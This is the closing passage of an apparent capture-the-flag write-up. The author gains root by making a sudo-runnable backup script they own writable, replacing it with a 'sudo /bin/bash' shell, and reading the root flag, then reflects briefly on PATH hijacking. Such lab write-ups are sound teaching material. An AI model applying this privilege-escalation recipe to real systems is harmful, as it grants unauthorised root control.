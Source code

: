 If you have more than 4 brain cells unlike me, you would have just done the following:

```bash
ls -l /etc/mp3backups/backup.sh
# -r-xr-xr-- 1 alex alex 1083 Dec 30  2020 /etc/mp3backups/backup.sh
```

Seen that our current user is the owner of this file, which means we can do whatever we want, let's say for example give ourselves write permission

```bash
chmod +w /etc/mp3backups/backup.sh
```

And just changed the script to a simple sudo shell:

```bash
#!/bin/bash
sudo /bin/bash
```

Call `sudo /etc/mp3backups/backup.sh` and we are root.

```bash
cat /root/root.txt
# <redacted5>
```

## Conclusion

This was a very interesting challenge, I didn't expect a easy level to be so long and intricate. I lost a lot of time on basic errors that I would have fixed by just knowing a little bit more.

But I don't think it was wasted time, actually I learned a lot, especially on how `env_reset` works, and it also allowed me to remember that `$PATH` hijacking is a very powerful tool to keep in mind.

I do think that the injection of `/root/` via `hostname` would have made for a very interesting challenge.
